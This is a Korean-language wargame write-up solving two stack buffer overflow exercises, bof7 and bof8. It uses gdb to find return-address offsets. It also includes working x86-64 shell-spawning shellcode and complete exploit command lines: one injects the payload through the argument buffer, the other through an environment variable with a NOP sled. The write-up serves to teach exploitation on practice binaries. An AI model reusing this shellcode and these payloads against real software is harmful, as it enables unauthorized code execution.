


# bof7~8 풀이
<details>
<summary>bof7 풀이</summary>
<div markdown="1">
 bof6.c 코드

> `bof5`까지 했던것과 달리 코드 내부에 `system()`함수가 없다는 것을 볼 수 있다. 그럼 어떻게 쉘의 절대경로 프로세스를 실행시킬까?<br>바로 쉘코드를 이용하는 것이다.<br>bof를 활용하여 함수의 `return`주소의 메모리에 넣고 싶은 쉘코드를 할당해주면 된다.

> 코드를 보면 `main`함수의 파라미터를 `vuln`함수에서 `buf`에 `strcpy`를 하는 것을 볼 수 있다. <br>즉, 내가 입력한 **input**이 `buf`에 저장되고, `buf`와 어떤 함수의 `return`주소값 (*여기선 vuln의 return address*)의 차이만큼 아무값이나 채워주고 그 위에 다시 내가 입력했던 **input**이 들어있는 `buf`의 주소값을 할당해주면 내가 입력한 **쉘코드**가 실행되는 것이다.

>우선 `vuln`함수가 `main`에서 호출 될 때의 `rsp`(`return adress`)를 찾아보자. **gdb**를 통해 디버깅모드로 들어가서 `vuln`함수의 내부로 들어가보면 <br><Br>`vuln`함수가 호출 될때 `rsp`의 주소값이 `0x7fffffffe488`임을 알 수 있다.

>이제 `buf`의 주소값을 찾아야 한다. `strcpy(buf,arg);`부분에서 `buf`가 사용되기 때문에 해당 부분으로 가야하는데, 중간에 있는<br><Br>이 부분때문에 그냥 갈 수는 없었다. **gdb**를 통해 내부를 살펴보니 <br><Br>`je`로 비교를 하는 것을 볼 수 있었다. `je`는 `ZF`의 값에 따라 결정되기 때문에 이 부분에서 `ZF`를 강제로 조작해서 넘어가 보았다.<BR>`set $eflags |= (1<<6)` 를 입력하면 `ZF`를 1로 만들어 해당 `if`문을 건너 뛸 수 있다.

>두개의 `if`문을 넘어서 `strcpy(buf,arg)`로 도착했다.<br><Br>이 때 `rdi`는 `buf`이고 `rsi`는 `arg`임을 알 수 있었다. ***(출력해보면 쉽게 알 수 있다.)***<br>`rdi`의 주소 값을 알 수 있고, 이 주소와 아까 찾은 `return`주소의 차이를 구하면 된다.

><Br>두 주소의 차이가 136byte만큼인걸 알았다!

>이제 입력을 할 때가 되었다.<br><Br>코드를 보면 위와 같이 `buf`의 주소를 출력해주는 코드를 볼 수 있다. <br>**!!!!여기서 주의 할 점!!!!!**<br>**gdb내부에서 구한 `buf`의 주소와 위 코드로 출력해주는 buf의 주소는 다르다**<br>**둘의 차이를 구해본 결과 64byte만큼 차이가 나고 그 차이는 항상 일정했다.**<br>어쨌든 `buf`쉘코드를 넣고 그 다음 **(136-쉘코드 크기)**만큼 아무값이나 채워넣어야 하므로 다음 코드를 실행시켜본다.

*<쉘코드> \x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05<br>크기 : 27byte*

>```./bof7 `python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'+'x'*109"` ```<br>를 실행시켜 보면 다음과 같은 결과를 얻는다.<br><Br>뒤에 나타나는 주소는 **쉘코드+아무값*109**를 넣어준 후의 `buf`의 주소값이다. 그러면 다시 **쉘코드+아무값*109** 뒤(  `return`주소값)에  이 주소(`buf`)값을 리틀앤디언방식을 통해 넣어주면 된다.

>최종적으로 다음 명령어를 통해 해결가능 하다.<br>```./bof7 `python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'+'x'*109+'\xb0\xe3\xff\xff\xff\x7f'"` ```<br>해결완료!<br>
</div>
</details>
<details>
<summary>bof8 풀이</summary>
<div markdown="1">
bof8.c코드

>`bof7`과 매우 유사하지만 <BR>`printf("(env:SHELLCODE -> %p)\n)", getenv("SHELLCODE"));`<BR>코드가 추가되어 있음을 알 수 있다.

>`main`함수에서 파라미터를 받는 것이 아닌것 이외에는 위 코드말고는 다른 것이 없는데 `bof7`에서 했던 방법을 그대로 사용하면 안될까? 그래서 `bof7`에서 썼던 방법대로 해보았다. `vuln`이 되돌아가는 `return`의 주소값과 `gets`부분에서 `rdi`의 주소값(=`buf`의 주소값)을 구했다. <br>*이 과정 역시 중간의 if문을 넘기 위해 `ZF`를 강제로 1로 만드는 작업을 했다.(bof7과 동일)*

>둘의 주소를 빼본 결과!<br><br>16이 나왔다.. **쉘코드**의 길이가 27인 점을 고려했을 때 입력하는 과정에서 `buf`에 **쉘코드**를 넣는 것은 불가능하다. 그래서 <BR>`printf("(env:SHELLCODE -> %p)\n)", getenv("SHELLCODE"));`<BR>이 코드가 있는 거구나! 라고 생각했다.

>`char *getenv(char *t)`함수는 환경변수에서 `t`문자열과 같은 문자열을 찾기 위해 리스트를 탐색하고 있다면 그 것의 포인터값을 `char*`형식으로 리턴한다. (없다면 `return null`)

>그러면 "SHELLCODE"라는 환경변수에 저장된 값이 있을까? 생각하고 코드를 그냥 실행시켜보았다. <br><br>`nil`이 나온다.. 그러면 어떻게 추가할 수 있을까? 바로 export명령어를 통해 환경변수를 설정할 수 있다.<br>`export <변수명>=<값>`형식을 사용하면 되므로<br>`export SHELLCODE="\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"`<BR>명령어를 입력하고 다시 `./bof8`을 통해 실행 해보았다.

><br>전과 다르게 `0x7fffffffe7de`라는 주소 값이 나타나는 것을 볼 수 있다. 환경변수가 제대로 설정되었다는 것이다. 위에서 `buf`와 `return`의 주소값 차이가 16byte라는 것을 알았으니 `buf`에 입력으로 아무값 16byte만큼과 `SHELLCODE`환경변수의 주소값을 리틀앤디언으로 넣어주면 된다!<br>`(python -c "print 'x'*16+'\xde\xe7\xff\xff\xff\x7f'";cat) | ./bof8`<br>위 명령어를 실행했다. 그러나 다음가 같은 오류가 나타났다..<br>

>무엇이 문제인지 모르겠어서 힌트를 보았다. 나와 다르점은 `export`를 통해 `SHELLCODE`환경 변수를 설정하는 명령어가 달랐다. 힌트에서는 다음과 같이 <BR>```export SHELLCODE=`python -c "print '\x90'*10+'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'"` ```<bR>python 구문을 통해 입력해주었다.<br><br>왜인지는 모르겠지만 `SHELLCODE`의 환경변수 주소값도 달라졌고 성공도 했다. 무엇이 문제인지는 잘 모르겠다..
</div>
</details>